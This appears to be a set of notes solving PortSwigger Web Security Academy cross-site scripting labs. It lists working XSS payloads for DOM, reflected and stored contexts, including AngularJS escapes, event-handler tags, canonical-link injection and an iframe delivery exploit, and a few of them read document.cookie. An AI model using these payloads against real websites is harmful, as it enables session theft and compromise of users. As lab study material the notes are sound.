






____

# DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
"></select>
```



```html
test</select>
```

# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app`

```js
{{$on.constructor('alert(1)')()}}
```

# Reflected DOM XSS

The application may be vulnerable to DOM-based JavaScript injection. Data is read from **location.search** and passed to **eval**.

```js
\"-alert()}//
```

Here's the step-by-step breakdown of why this works:

1. **Escape the JSON Context**: The `\"` escapes the JSON string.
2. **Inject Code**: `-alert()` gets injected and executed.
3. **Comment Out**: `}//` comments out the rest to prevent any syntax errors from the remaining code.

# Stored DOM XSS

> Function replaces first angle brakets only:

```js
 function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

```js
<>
```

# Reflected XSS into HTML context with most tags and attributes blocked

"Tag is not allowed"

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Copy tags to clipboard



Status 200 --> body

"Attribute is not allowed"

Copy events to clipboard



```js
<body onresize="print()">
```

```js
<iframe src="https://0aff0012036c406f80a92664002500fa.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```


# Reflected XSS into HTML context with all tags blocked except custom ones

```html
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

```
https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert(document.cookie)+tabindex%3D1%3E#x
```

```html
<script>
location = 'https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E#x';
</script>
```

# Reflected XSS with some SVG markup allowed



```js
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

# Reflected XSS in canonical link tag

```html
<link rel="canonical" href='https://0a27005e04da85618195de30000a0031.web-security-academy.net/?feq46jyh'/>
```



```js
?'accesskey='x'onclick='alert(1)
```

# Reflected XSS into a JavaScript string with single quote and backslash escaped

Single quote gets backslash-escaped, preventing you from breaking out of the string.

```html
</script><script>alert(1)</script>
```


# Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

The value of the **search** request parameter is copied into a JavaScript string which is encapsulated in single quotation marks. 

```js
\';alert(1)//
```




# Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

```
http://foo?&apos;-alert(1)-&apos;
```

# Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

Test which characters are not unicodes

```html
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```

```js
${alert(1)}
```
